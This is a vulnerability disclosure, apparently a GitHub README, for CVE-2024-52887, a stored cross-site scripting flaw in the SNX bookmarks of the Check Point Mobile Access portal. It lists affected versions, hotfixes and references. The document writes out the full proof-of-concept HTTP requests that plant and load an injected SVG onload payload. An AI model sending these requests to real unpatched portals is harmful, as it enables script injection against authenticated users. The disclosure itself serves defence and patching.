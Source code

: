 # CVE-2024-52887
Check Point Mobile Access portal SNX bookmarks  - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal SNX bookmarks. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.

Payload can be saved using following request:
```
POST /sslvpn/Portal/SaveSNXFavorite HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 205
Origin: [REDACTED]
Connection: keep-alive

Title=%3Csvg+onload%3Dalert(document.domain)%3E&Path=%3Csvg+onload%3Dalert(document.domain)%3E&Params=%3Csvg+onload%3Dalert(document.domain)%3E&Tooltip=%3Csvg+onload%3Dalert(document.domain)%3E&Id=93981731
```

After that, payload can be loaded using following request:
```
GET /sslvpn/SNX/GetSnxBookmarks HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

This results in XSS:
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2024 09:06:40 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Cache-Control: no-store
Vary: User-Agent
Content-Length: 2623
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"returnCode":0,"SnxAppsArray":[{"type":0,"embeddedAppType":"","url":"","title":"<svg onload=alert(document.domain)>","tooltip":"<svg onload=alert(document.domain)>","path":"<svg onload=alert(document.domain)>","params":"<svg onload=alert(document.domain)>",

[...]
```

## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
Check Point has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173

Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183054.

### References
* https://support.checkpoint.com/results/sk/sk183054
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52887
* https://www.cve.org/CVERecord?id=CVE-2024-52887
